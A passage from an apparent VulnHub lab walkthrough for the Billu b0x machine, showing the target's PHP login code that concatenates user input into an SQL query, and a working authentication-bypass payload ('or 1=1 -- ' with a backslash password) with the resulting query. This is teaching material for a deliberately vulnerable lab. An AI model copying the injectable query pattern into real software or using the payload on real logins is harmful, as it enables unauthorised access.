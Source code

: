 ![9-7.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-7.png)

Alternatively we can gain access via SQL bypass. Let's examine the code for the `/index.php` page.
```
    $uname=str_replace('\'','',urldecode($_POST['un']));
    $pass=str_replace('\'','',urldecode($_POST['ps']));
    $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
    $result = mysqli_query($conn, $run);

    if (mysqli_num_rows($result) > 0) {
      $row = mysqli_fetch_assoc($result);
      echo "You are allowed<br>";
      $_SESSION['logged']=true;
      $_SESSION['admin']=$row['username'];
         
      header('Location: panel.php', true, 302);  
    }
```
From this we see that we're replacing the quotes `\' `with space `''`. The `\` is used as an escape sequence.
It then url decodes the username and payload.
We're using a direct sql statement for authentication.
Attempting to use sqlmap for injection fails.
We then make a direct attempt at bypass attempting to visualise how the query will look upon insertion.

    select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'

Resultant sql statement will look as follows;

    select * from auth where  pass='pw' and uname='user'

To bypass this we use the following parameters;

    uname: or 1=1 -- (make sure there is a space after the double hyphen; otherwise the injection fails)
    pass: \

The query actually becomes;

    select * from auth where  pass=" and uname=" or 1=1 --
We're in;


[1]: https://www.vulnhub.com/entry/billu-b0x,188/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator